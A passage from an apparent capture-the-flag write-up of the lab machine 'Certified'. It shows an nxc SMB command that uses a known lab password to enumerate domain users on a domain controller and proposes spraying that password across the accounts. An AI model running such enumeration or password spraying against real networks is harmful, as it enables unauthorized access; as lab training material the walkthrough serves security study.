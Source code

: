 nothing interesting

lets grab usernames list and lets check if another user use judtih’s password as password

```sh
➜  certified nxc smb DC01.certified.htb -u judith.mader -p 'judith09' --users       
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-            
SMB         10.10.11.41     445    DC01             Administrator                 2024-05-13 14:53:16 0       Built-in account for administering the computer/domain
SMB         10.10.11.41     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.10.11.41     445    DC01             krbtgt                        2024-05-13 15:02:51 0       Key Distribution Center Service Account
SMB         10.10.11.41     445    DC01             judith.mader                  2024-05-14 19:22:11 0        
SMB         10.10.11.41     445    DC01             management_svc                2024-05-13 15:30:51 0        
SMB         10.10.11.41     445    DC01             ca_operator                   2024-05-13 15:32:03 0        
SMB         10.10.11.41     445    DC01             alexander.huges               2024-05-14 16:39:08 0        
SMB         10.10.11.41     445    DC01             harry.wilson                  2024-05-14 16:39:37 0        
SMB         10.10.11.41     445    DC01             gregory.cameron               2024-05-14 16:40:05 0 
```
now we can save it as nxcusers.txt and we can extract username list

![alt text](../assets/images/Screenshot_2025-03-12_21_51_59.png)
